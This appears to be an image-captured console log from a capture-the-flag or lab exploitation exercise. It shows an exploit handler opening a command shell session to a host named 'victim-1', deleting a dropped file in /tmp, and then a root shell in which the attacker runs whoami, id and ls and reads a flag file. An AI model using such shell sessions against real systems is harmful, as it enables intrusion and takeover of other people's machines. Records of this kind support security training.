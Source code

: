```
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 0Kzfr8NXEhMfYSZc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "0Kzfr8NXEhMfYSZc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 3 opened (192.127.83.2:4444 -> 192.127.83.3:47900) at 2023-03-12 03:49:26 +0000
[+] Deleted /tmp/update

```

```
/bin/bash -i
bash: cannot set terminal process group (26): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~# whoami
whoami
root
root@victim-1:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@victim-1:~# pwd
pwd
/root
root@victim-1:~# ls
ls
flag
root@victim-1:~# cat flag
cat flag
9db8bf8f483ff50857f26f9bd636bed6
root@victim-1:~# 
```